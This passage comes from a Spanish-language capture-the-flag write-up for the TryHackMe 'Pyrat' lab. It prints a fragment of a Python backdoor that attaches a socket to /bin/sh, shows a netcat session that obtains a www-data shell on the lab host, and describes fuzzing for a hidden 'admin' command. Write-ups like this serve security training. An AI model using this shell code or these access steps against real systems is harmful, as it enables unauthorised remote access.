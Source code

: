 ```
+        os.dup2(client_socket.fileno(), 0)
+        os.dup2(client_socket.fileno(), 1)
+        os.dup2(client_socket.fileno(), 2)
+        pty.spawn("/bin/sh")
+    except Exception as e:
+        send_data(client_socket, e
+
+...............................................
think@Pyrat:/opt/dev/.git$ 
```

Vemos que el script permitiría otorgarnos una shell como root al enviar la palabra "*shell*", pero vemos que hay un condicional antes del que necesitamos identificar un parámetro para que ejecute la shell con privilegios administrativos.

Comprobamos que si conectamos con **netcat** y enviamos la palabra *shell*, nos abre una terminal, esto no se nos ocurrió al principio! :D:
```
> nc -nv 10.10.216.28 8000
(UNKNOWN) [10.10.216.28] 8000 (?) open
shell
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:68:67:d6:96:97 brd ff:ff:ff:ff:ff:ff
    inet 10.10.216.28/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2812sec preferred_lft 2812sec
    inet6 fe80::68:67ff:fed6:9697/64 scope link 
       valid_lft forever preferred_lft forever
$ 
```
Intentamos enviar *some_endpoint*, pero vemos que no está definido,así que vamos a tener que hacer un descubrimiento a través de técnicas de fuzzing:
```
> nc -nv 10.10.216.28 8000
(UNKNOWN) [10.10.216.28] 8000 (?) open
some_endpoint
name 'some_endpoint' is not defined
```
No nos complicamos y elaboramos un *oneliner* en bash y con un diccionario con palabras, rápidamente identificamos la palabra "*admin*", y que nos pide una contraseña para continuar:
![](../assets/img/pyrat-tryhackme-writeup/4.png)
